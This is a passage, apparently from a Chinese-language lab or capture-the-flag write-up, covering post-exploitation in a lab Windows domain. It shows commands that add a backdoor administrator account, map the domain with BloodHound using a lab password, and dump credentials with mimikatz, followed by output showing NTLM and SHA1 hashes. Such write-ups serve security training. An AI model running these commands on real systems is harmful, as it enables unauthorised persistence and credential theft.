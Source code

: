 ```bash
net user test P@ssw0rd /add
net localgroup administrators test /add
```

远程连接后，可以利用`BloodHound`搜集内网信息

```bash
proxychains bloodhound-python -u zhangwen -p 'QT62f3gBhK1' -d xiaorang.lab -c all -ns 172.22.13.6 --zip --dns-tcp
```

[![](assets/1709193375-cba292120569e8938ab60a10a9343601.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205212-06eaf520-d56f-1.png)

上传一个`mimikatz`进行提取账号密码信息

```bash
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > test.txt
```

```bash
Authentication Id : 0 ; 219475 (00000000:00035953)
Session           : Service from 0
User Name         : chenglei
Domain            : XIAORANG
Logon Server      : WIN-DC
Logon Time        : 2023/10/4 16:46:14
SID               : S-1-5-21-3269458654-3569381900-10559451-1105
    msv :   
     [00000003] Primary
     * Username : chenglei
     * Domain   : XIAORANG
     * NTLM     : 0c00801c30594a1b8eaa889d237c5382
     * SHA1     : e8848f8a454e08957ec9814b9709129b7101fad7
     * DPAPI    : 89b179dc738db098372c365602b7b0f4
    tspkg : 
    wdigest :   
     * Username : chenglei
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :  
     * Username : chenglei
```